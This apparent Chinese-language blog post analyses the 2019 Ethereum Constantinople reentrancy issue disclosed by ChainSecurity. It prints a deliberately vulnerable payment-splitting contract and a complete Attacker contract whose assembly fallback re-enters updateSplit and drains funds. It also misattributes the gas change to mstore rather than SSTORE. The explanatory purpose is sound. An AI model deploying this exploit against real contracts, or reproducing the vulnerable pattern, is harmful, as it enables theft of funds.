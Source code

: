 ```yaml
---
layout: post
title: "Ethereum 君士坦丁堡重入攻击"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

### 前情简介

以太坊预计在 [7080000](https://amberdata.io/blocks/7080000) 区块进行君士坦丁堡网络升级，升级内容主要包含了 [EIP 145](https://eips.ethereum.org/EIPS/eip-145)、[EIP 1014](https://eips.ethereum.org/EIPS/eip-1014)、[EIP 1052](https://eips.ethereum.org/EIPS/eip-1052)、[EIP 1283](https://eips.ethereum.org/EIPS/eip-1283) 和 [EIP 1234](https://eips.ethereum.org/EIPS/eip-1234)，但就在升级的前一天，[ChainSecurity](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9) 爆出此次升级可能会导致主网上的合约遭受重入攻击。

### 攻击分析

ChainSecurity 示例中被攻击合约如下

```solidity
pragma solidity ^0.5.0;

contract PaymentSharer {
  mapping(uint => uint) splits;
  mapping(uint => uint) deposits;
  mapping(uint => address payable) first;
  mapping(uint => address payable) second;

  function init(uint id, address payable _first, address payable _second) public {
    require(first[id] == address(0) && second[id] == address(0));
    require(first[id] == address(0) && second[id] == address(0));
    first[id] = _first;
    second[id] = _second;
  }

  function deposit(uint id) public payable {
    deposits[id] += msg.value;  // 1.
  }

  function updateSplit(uint id, uint split) public {
    require(split <= 100);
    splits[id] = split;
  }

  function splitFunds(uint id) public {
    // Here would be: 
    // Signatures that both parties agree with this split

    // Split
    address payable a = first[id];
    address payable b = second[id];
    uint depo = deposits[id];
    deposits[id] = 0;

    a.transfer(depo * splits[id] / 100);          // 2.
    b.transfer(depo * (100 - splits[id]) / 100);  // 5.
  }
}
```

攻击合约如下

```solidity
pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
  address private victim;
  address payable owner;

  constructor() public {
    owner = msg.sender;
  }

  function attack(address a) external {
    victim = a;
    PaymentSharer x = PaymentSharer(a);
    x.updateSplit(0, 100);
    x.splitFunds(0);
  }

  function () payable external {  // 3.
    address x = victim;
    assembly{
        mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
        pop(call(10000, x, 0, 0x80, 0x44, 0, 0))  // 4.
    }    
  }

  function drain() external {
    owner.transfer(address(this).balance);
  }
}
```

1. 首先攻击者调用 `deposit` 发送一定数量的 ETH 给被攻击合约
2. 接着调用 `attack` 方法，将所有资金发送给攻击者的地址
3. 由于攻击者是一个合约地址，因此 fallback 方法被触发
4. fallback 方法重新触发 updateSplit 并将 splits[id] 值更改为 0
5. 此时继续执行第二笔转账就会导致合约资金被盗取

> 流程可以参考 twitter 上的[这张图](https://twitter.com/mandrigin/status/1085579865380843520)

![constantinople reentrancy attack]({{ site.url }}/assets/pictures/blockchain/ethereum/constantinople_reentrancy_attack.png)

之所以攻击能够生效，是因为 `transfer` 方法默认指定 2300 gas limit，而 `mstore` 操作在此次网络升级之前消耗的 gas 超过 2300，而在此次网络更新之后降低为 200 gas，这就导致了 mstore 能够成功执行。

#### inline assembly code

> call(g, a, v, in, insize, out, outsize)  
> *call contract at address a with input mem[in…(in+insize)) providing g gas and v wei and output area mem[out…(out+outsize)) returning 0 on error (eg. out of gas) and 1 on success*

最后我们来分析一下这段汇编代码做了什么，首先通过 `web3.utils.sha3("updateSplit(uint256,uint256)")` 计算并获取方法签名的前4个字节 0xc3b18fb6，接着我们将该方法签名补齐32字节并存储到 0x80 地址（当前 solidity 实现将自由内存指针 [0x80](https://solidity.readthedocs.io/en/v0.5.2/assembly.html) 存放在 0x40 位置），然后通过 `call` 调用，`call` 的参数解释如下，指定花费 gas limit 10000，被攻击者合约地址 x，方法和参数起始地址 0x80，参数的长度 0x44(即 68 bytes = 4 method sign bytes + 32 bytes uint256 + 32 bytes uint256)，输出值的起始地址 0，输出值的长度 0，最后把 `call` 返回值从栈中移除。


[*ethereum-constantinople-upgrade-announcement*](https://blog.ethereum.org/2019/01/11/ethereum-constantinople-upgrade-announcement/)  
[*security-alert-ethereum-constantinople-postponement*](https://blog.ethereum.org/2019/01/15/security-alert-ethereum-constantinople-postponement/)  
[*Constantinople enables new Reentrancy Attack*](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9)  
[*Solidity Assembly*](https://solidity.readthedocs.io/en/v0.5.2/assembly.html)